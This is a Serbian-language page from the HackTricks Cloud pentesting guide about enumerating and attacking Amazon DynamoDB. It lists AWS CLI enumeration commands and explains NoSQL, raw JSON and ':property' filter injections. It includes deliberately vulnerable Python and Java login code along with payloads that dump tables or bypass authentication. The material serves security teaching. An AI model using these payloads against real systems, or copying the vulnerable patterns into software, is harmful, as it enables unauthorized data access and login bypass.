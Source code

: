 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB se predstavlja kao **potpuno upravljana, serverless, key-value NoSQL baza podataka**, prilagođena za pokretanje aplikacija visokih performansi bez obzira na njihovu veličinu. Usluga obezbeđuje robusne karakteristike uključujući inherentne mere bezbednosti, neprekidne rezervne kopije, automatsku replikaciju širom više regiona, integrisano keširanje u memoriji i praktične alate za izvoz podataka.

U kontekstu DynamoDB, umesto uspostavljanja tradicionalne baze podataka, **kreiraju se tabele**. Svaka tabela zahteva specifikaciju **ključne particije** kao integralnog dela **primarnog ključa tabele**. Ovaj ključ particije, suštinski **hash vrednost**, igra ključnu ulogu u preuzimanju stavki i distribuciji podataka širom različitih hostova. Ova distribucija je ključna za održavanje i skalabilnosti i dostupnosti baze podataka. Pored toga, postoji opcija za uključivanje **ključnog sortiranja** kako bi se dodatno poboljšala organizacija podataka.

### Encryption

Podrazumevano, DynamoDB koristi KMS ključ koji \*\*pripada Amazon DynamoDB,\*\* čak ni AWS upravljani ključ koji barem pripada vašem nalogu.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Moguće je **zakazati** generisanje **rezervnih kopija tabela** ili ih kreirati na **zahtev**. Štaviše, takođe je moguće omogućiti **oporavak u tački vremena (PITR) za tabelu.** Oporavak u tački vremena obezbeđuje kontinuirane **rezervne kopije** vaših DynamoDB podataka za **35 dana** kako bi vam pomogao da se zaštitite od slučajnih operacija pisanja ili brisanja.

Takođe je moguće izvesti **podatke tabele u S3**, ali tabela mora imati **omogućen PITR**.

### GUI

Postoji GUI za lokalne Dynamo usluge kao što su [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), itd, koji bi mogli biti korisni: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Neautentifikovani Pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Eksploatacija

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Postojanost

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injekcija

### SQL Injekcija

Postoje načini za pristupanje podacima iz DynamoDB koristeći **SQL sintaksu**, stoga su tipične **SQL injekcije takođe moguće**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injekcija

U DynamoDB različite **uslove** je moguće koristiti za preuzimanje podataka, kao u uobičajenoj NoSQL injekciji, ako je moguće **povezati više uslova za preuzimanje** podataka, mogli biste dobiti skrivene podatke (ili izvući celu tabelu).\
Ovde možete pronaći uslove koje podržava DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Napomena da se **različiti uslovi** podržavaju ako se podaci pristupaju putem **`query`** ili putem **`scan`**.

{% hint style="info" %}
U stvari, **Query** akcije moraju da specificiraju **uslov "EQ" (jednako)** u **primarnom** ključu da bi funkcionisale, čineći ih mnogo **manje podložnim NoSQL injekcijama** (i takođe čineći operaciju veoma ograničenom).
{% endhint %}

Ako možete **promeniti poređenje** koje se vrši ili dodati nova, mogli biste preuzeti više podataka.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Ova ranjivost se zasniva na dynamodb Scan Filter koji je sada ukinut!**
{% endhint %}

**DynamoDB** prihvata **Json** objekte za **pretragu** podataka unutar DB-a. Ako otkrijete da možete pisati u json objekt koji se šalje za pretragu, mogli biste napraviti dump DB-a, svih sadržaja.

Na primer, injektovanje u zahtev kao:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

napadač bi mogao da ubrizga nešto poput:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ispravite "EQ" uslov tražeći ID 1000, a zatim tražeći sve podatke sa ID stringom većim od 0, što je sve.

Još jedan **ranjiv primer korišćenja prijave** mogao bi biti:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Ovo bi bilo ranjivo na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Neki SDK-ovi omogućavaju korišćenje stringa koji označava filtriranje koje treba izvršiti kao: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Morate znati da prilikom pretrage u DynamoDB za **zamenu** **vrednosti** atributa u **filter izrazima** dok skenirate stavke, tokeni treba da **počnu** sa **`:`** karakterom. Takvi tokeni će biti **zamenjeni** stvarnom **vrednosti atributa u vreme izvršavanja**.

Stoga, prijava poput prethodne može biti zaobiđena nečim poput:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
